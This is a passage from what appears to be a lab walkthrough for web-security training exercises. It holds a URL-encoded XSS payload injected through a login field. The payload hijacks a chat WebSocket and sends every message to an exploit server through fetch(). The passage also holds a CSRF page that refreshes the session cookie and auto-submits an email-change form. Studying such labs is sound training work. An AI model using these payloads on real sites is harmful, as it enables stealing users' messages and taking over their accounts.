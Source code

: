 ```html
            <form method="POST" action="/login">
                <label>Username</label>
                <input required="" type="username" name="username"/>
                <label>Password</label>
                <input required="" type="password" name="password"/>
            <button type="submit"> Log in </button>
        </section>
    </body>
</html>
```

Ok we see the same answer as for POST, great, let's use our initial payload (the one from WebSockets), encode it via URL encoding and abuse our login field so our new payload will look like this:

```html
<script>
  document.location = "https://cms-0ad700fa03243c3180f140a600280051.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%37%30%30%66%61%30%33%32%34%33%63%33%31%38%30%66%31%34%30%61%36%30%30%32%38%30%30%35%31%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%65%36%30%30%32%61%30%33%31%39%33%63%64%34%38%30%66%32%33%66%33%33%30%31%38%64%30%30%31%30%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%27%20%2b%20%62%74%6f%61%28%65%76%65%6e%74%2e%64%61%74%61%29%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=testpasswd"
</script>
```

Ok so now we deliver this one to the victim and in the logs getting all the data we need!


#### SameSite Lax bypass via newly issued cookies/cookie refresh
While we check carefully - we are getting cookie after login ...
It was written that site will block a pop-up but I actually was able to solve it without `windows.onclick` like this:


```html
<form method="POST" action="https://0a970020042119a980475df100fe000c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@banged">
</form>
<script>
    window.open('https://0a970020042119a980475df100fe000c.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```
